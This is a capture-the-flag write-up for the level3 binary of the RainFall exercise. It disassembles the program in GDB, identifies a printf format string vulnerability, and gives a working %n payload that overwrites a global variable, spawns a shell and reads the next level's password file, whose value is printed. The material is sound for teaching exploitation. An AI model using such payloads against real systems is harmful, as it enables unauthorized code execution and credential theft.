 # level3

## exploring the binary
```shell
level3@RainFall:~$ ./level3
phantom
phantom
level3@RainFall:~$ ./level3
society42
society42
```
Similar to the <code>level2</code> binary, our executable waits for standard input and then prints it out.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
The main function calls <code>v()</code> only upon execution.
```shell
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```
Further inspection of the function draws our attention to <code>0x080484da</code>, where a variable at <code>0x804988c</code> is moved into <code>eax</code> and compared against <code>0x40</code>.
```shell
(gdb) x/s 0x804988c
0x804988c <m>:	 ""
(gdb) print 0x40
$1 = 64
```
This means there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
Since <code>fgets()</code> is used to gather the input, buffer overflow attacks are no longer an option. While 520 bytes are allocated for the buffer (+26), the size of the input read is set to 512 bytes, effectively protecting it. The entire input string is then displayed using <code>printf()</code>, which introduces a vulnerability to a <code>format string</code> attack.

## format string attack
When the input containing format strings is passed to <code>printf()</code>, it is processed and displayed as output. If the input aligns with the expected format specifiers, it is printed correctly. However, if the input includes malicious format specifiers, it can be exploited to manipulate the output or the program's behavior. Since we know the address of <code>m</code>, we will use <code>printf()</code> to modify its value.

The format string vulnerability arises because the program utilizes user input directly in the <code>printf</code> function without adequate sanitization. By passing a string to the function and printing numerous stack addresses (<code>%p</code>) following this string, we can determine the specific stack parameter it occupies.

``` shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern3
level3@RainFall:~$ cat /tmp/pattern3 - | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found success with just 5 addresses and discovered that the string <code>AAAA</code> resides in the fourth position. With our understanding of the format string's location in the stack, our next step is to craft a string 64 characters in length, embedding the address of the variable (<code>0x0804988c</code>) crucial for triggering the shell. Subsequently, we leverage the <code>%n</code> specifier to write this length to the specified address - when the format string <code>%4$n</code> is used, printf will write the number of characters printed so far into the memory location specified by the fourth argument.

## exploit
``` shell
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60d%4$n"' > /tmp/flag3
level3@RainFall:~$ cat /tmp/flag3 - | ./level3
�FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
